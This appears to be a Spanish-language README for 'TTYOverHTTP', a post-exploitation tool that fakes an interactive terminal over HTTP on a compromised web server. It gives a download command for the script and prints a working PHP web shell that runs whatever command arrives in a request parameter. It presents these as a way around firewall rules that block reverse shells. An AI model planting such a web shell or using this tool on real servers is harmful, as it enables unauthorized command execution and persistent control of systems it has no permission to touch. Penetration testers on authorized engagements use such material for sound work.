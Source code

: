 # TTYOverHTTP
```shell
wget https://raw.githubusercontent.com/jaumesaa/easier-ttyoverhttp/master/tty_over_http.py
```
*esto es un fork de s4vitar, ¿estamos?*
--------------------------------------------
En ocasiones cuando comprometemos un servidor web, hay reglas configuradas (**Ej: iptables**) que nos impiden obtener una Reverse Shell vía Netcat, Python, u otra utilidad.

Con esta herramienta, evitamos tener que hacer uso de una reverse shell para
obtener una TTY posteriormente completamente interactiva. A través de archivos
'**mkfifo**', jugamos para simular una TTY interactiva sobre HTTP, logrando
manejarnos sobre el sistema cómodamente sin ningún tipo de problema.

Lo único que necesitamos, es subir al servidor comprometido una estructura PHP como la siguiente para ejecutar comandos:

```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```

Una vez subido, simplemente ejecutamos el script (Es necesario cambiar la ruta en el script donde se sitúa nuestro script PHP alojado en el servidor vulnerado).

Tras su ejecución, se muestra un ejemplo de su utilidad:

<div style="text-align:center"><img src="https://funkyimg.com/i/2VKJz.png" /></div>

